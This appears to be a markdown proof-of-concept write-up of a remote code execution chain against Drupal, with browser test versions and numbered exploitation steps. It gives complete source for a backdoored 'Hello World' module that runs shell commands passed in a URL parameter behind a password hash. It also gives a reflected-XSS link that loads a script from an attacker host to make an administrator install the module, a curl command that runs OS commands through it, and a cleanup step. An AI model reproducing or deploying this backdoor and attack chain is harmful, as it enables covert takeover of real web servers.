

# [RCE] Install Module

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [create Drupal module containing PHP payload] backdoor source code

(`hello_world.info.yml`)

```
name: hello_world
type: module
description: 'Hello World custom module'
package: custom
version: 1.0
core_version_requirement: ^10
```

(`hello_world.routing.yml`)

```
hello_world.hellomsg:
  path: '/hello-world'
  defaults:
    _controller: 'Drupal\hello_world\Controller\HelloWorldController::message'
    _title: 'Hello World!!'
  requirements:
    _permission: 'access content'
```

(`src/Controller/HelloWorldController.php`)

```
<?php

namespace Drupal\hello_world\Controller;

class HelloWorldController {
  public function message() {
    if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
    return [
      '#markup' => 'Hello World message from custom module'
    ];
  }
}
```

2. [create Drupal module containing PHP payload] create Drupal module

```
tar cvf hello_world.tar.gz *
```

3. victim user (with administrative privileges) logs in

http://192.168.5.17/user/login

4. victim user clicks link

```
http://192.168.5.17/test/rxss.php?q=<script src=http://192.168.5.13/installModuleDrupal.js></script>
```

6. execute OS command

```
curl -s "http://192.168.5.17/hello-world?pass=test&cmd=id" | head -n 1
```

7. [optional] uninstall plugin

*Drupal -> Extend -> [tab] Uninstall -> (filter by name) hello -> (mark checkbox) Hello World -> Uninstall -> Uninstall*

## Screenshots


